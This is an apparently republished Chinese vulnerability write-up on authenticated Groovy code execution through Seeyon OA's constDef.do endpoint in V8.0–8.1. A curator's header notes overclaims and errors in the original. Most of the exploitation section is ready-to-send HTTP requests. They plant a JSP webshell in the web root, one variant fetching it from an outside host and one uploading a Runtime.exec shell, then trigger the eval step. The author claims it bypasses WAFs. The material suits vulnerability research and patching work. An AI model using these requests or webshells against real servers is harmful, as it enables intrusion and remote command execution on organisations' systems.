# 致远Seeyon constDef.do存储Groovy求值代码执行

## 条目说明

- 对象与具体问题：致远Seeyon；constDef.do存储Groovy求值代码执行
- 版本、配置及部署条件：8.0–8.1；varchar255限制；2023-08-11补丁声称
- 认证与权限前提：后台有效会话，最低角色未明
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- 属于致远正确分类；三步常量创建/引用/list触发逻辑较清楚
- 不出网上传multipart所有name/filename丢失；样例日期07/22与后续路径06/06不符，需动态替换
- 完美解决任何情况/Bypass WAF是过度主张，应限定所示条件
- 后台写常量/文件有持久副作用；关键源码全图片，缺官方补丁公告

## 操作风险

文件写入/上传示例可能留下文件、覆盖数据或触发脚本执行；命令/代码执行示例可能改变主机状态。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。

## 技术资料与来源记录

> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/DUr29QycSLj06rYAZLKeNA)

<table data-mpa-powered-by="yiban.io" width="677"><tbody><tr><td width="557" valign="top" height="62"><h3 cid="n0" mdtype="heading" data-style="margin-top: 1rem; margin-bottom: 1rem; outline: 0px; font-weight: bold; font-size: 1.5em; background-color: rgb(255, 255, 255); color: rgb(51, 51, 51); white-space: pre-wrap; break-after: avoid-page; break-inside: avoid; orphans: 4; line-height: 1.43; cursor: text; caret-color: rgb(51, 51, 51); font-family: &quot;Open Sans&quot;, &quot;Clear Sans&quot;, &quot;Helvetica Neue&quot;, Helvetica, Arial, &quot;Segoe UI Emoji&quot;, sans-serif; letter-spacing: normal; text-align: start; visibility: visible;" id="sr-toc-0">免责声明：请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任。本次测试仅供学习使用，如若非法他用，与平台和本文作者无关，需自行负责。<br></h3></td></tr></tbody></table>

大家可以把安全绘景设为星标，这样就可以及时看到我们最新发布内容啦！



#### 前言

最早致远官方是在 **2023-8-11** 号对 **constDef.do** 接口出了官方漏洞修复补丁。但目前该**漏洞点**是位于**后台**，所以目前还是有部分依然可以打。本文仅以安全研究为目的，请勿用做非法用途。



影响范围  

*   **version:   Seeyon V8.0-8.1**
    

#### 漏洞分析

这里就简单说一下漏洞，不做详细分析。

漏洞点：`com.seeyon.ctp.view.modules.operationcenter.constdef.controller.ConstDefController`

在`newConstDef`方法接受三个参数`constKey、constDefine`和`constDescription`判断是否为空，如果不为空传入到`insertConstDef()`方法，而这里就是导致为什么 **payload** 长度不能太长，就是因为这里插入到数据库，而数据 **varchar** 长度默认为 **255**。



  
  

漏洞触发点：**listConstDef**

首先判断`_search`是否为空，如果为空进入到 else 语句，将`page`和`rows`两参数传入到`listPage`方法中。



  
  
  
  
  
最后将之前插入到数据库内容进行判断是否以 **$** 开头，然后判断`ConstType`参数是否为 **3**, 如果是则调用`ScriptEvaluator.eval`方法执行 **groovy** 代码。  



  
漏洞复现（Trick）  

**目前给的 Payload 能够比较完美解决了该漏洞实战所遇到的任何情况。**

*   **支持写入任意长度的 Webshell**
    
*   **支持出网 / 不出网利用**
    
*   **具有 Bypass Waf 效果**
    

##### 出网情况

_**> Step1：**_

出网情况直接通过远程下载可以比较有效 **Bypass Waf** 方法。

```http
POST /seeyon/constDef.do HTTP/1.1
Host: 172.16.135.220:8089
accept: */*
Accept-Encoding: gzip, deflate
Cookie: JSESSIONID=F72080DF26DFA10AF113DF1F6BC38530; hostname=172.16.135.220:8089; login_locale=zh_CN; loginPageURL=
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 545

method=newConstDef&constKey=uddd1&constDefine=new+File('../webapps/ROOT/test.jspx')+<<+new+URL('http%3a//192.168.43.81%3a18080/123.txt').text&constType=2


```

> 请求长度说明：原资料 Content-Length 为 545；保留原始标头；其数值未据实际请求体重新计算或验证。



_**> Step2：**_

引用**`Step1:`**定义常量，构造闭合造成代码执行。

```http
POST /seeyon/constDef.do HTTP/1.1
Host: 172.16.135.220:8089
accept: */*
Accept-Encoding: gzip, deflate
Cookie: JSESSIONID=F72080DF26DFA10AF113DF1F6BC38530; hostname=172.16.135.220:8089; login_locale=zh_CN; loginPageURL=
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 89

method=newConstDef&constKey=runtime1c2345accaccc&constDefine=evaluate+$uddd1&constType=3


```

> 请求长度说明：原资料 Content-Length 为 89；保留原始标头；其数值未据实际请求体重新计算或验证。



_**> Step3：**_

通过**`listConstDef`**方法触发漏洞

```http
POST /seeyon/constDef.do HTTP/1.1
Host: 172.16.135.220:8089
accept: */*
Accept-Encoding: gzip, deflate
Cookie: JSESSIONID=F72080DF26DFA10AF113DF1F6BC38530; hostname=172.16.135.220:8089; login_locale=zh_CN; loginPageURL=
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 35

method=listConstDef&page=1&rows=100


```

> 请求长度说明：原资料 Content-Length 为 35；保留原始标头；其数值未据实际请求体重新计算或验证。



##### 不出网情况

_**> Step1：**_

把文件进行落地。

上传后的路径：/base/upload / 年 / 月 / 日 / 返回的 id

例如：/base/upload/2024/07/22/2101525989813472287

```http
POST /seeyon/fileUpload.do?method=processUpload&maxSize= HTTP/1.1
Host: 172.16.135.236:8089
Cookie: JSESSIONID=0D3102C6F8445B2207B3A29DF9C4BAE6
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: multipart/form-data; boundary=---------------------------1416682316313
Content-Length: 1172

-----------------------------1416682316313
Content-Disposition: form-data; 


-----------------------------1416682316313
Content-Disposition: form-data; 


-----------------------------1416682316313
Content-Disposition: form-data; 


-----------------------------1416682316313
Content-Disposition: form-data; 


-----------------------------1416682316313
Content-Disposition: form-data; 


-----------------------------1416682316313
Content-Disposition: form-data; 


-----------------------------1416682316313
Content-Disposition: form-data; 

false
-----------------------------1416682316313
Content-Disposition: form-data; 
Content-Type: Image/x-zip-compressed

<% Runtime.getRuntime().exec(request.getParameter("a"));%>
-----------------------------1416682316313--


```

> 请求长度说明：原资料 Content-Length 为 1172；保留原始标头；其数值未据实际请求体重新计算或验证。



_**> Step2：**_

通过读取本地文件，进行写入文件可以完美解决写入文件长度的长度。

```http
POST /seeyon/constDef.do HTTP/1.1
Host: 172.16.135.220:8089
accept: */*
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.5845.111 Safari/537.36
Accept-Encoding: gzip, deflate
Cookie: JSESSIONID=F72080DF26DFA10AF113DF1F6BC38530; hostname=172.16.135.220:8089; login_locale=zh_CN; loginPageURL=
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 545
method=newConstDef&constKey=u6da&constDefine=new+File('../webapps/ROOT/gsl.jsp')+<<+new+File('../../base/upload/2024/06/06/2101525989813472287').text&constType=2

```

后续两个步骤触发漏洞跟之前的 **Step2**、**Step3** 一样。

* * *

**除了上面的方法还有更好利用 trick 方法，欢迎大家挖掘。**

---

> 来源：MrWQ/vulnerability-paper（https://github.com/MrWQ/vulnerability-paper）
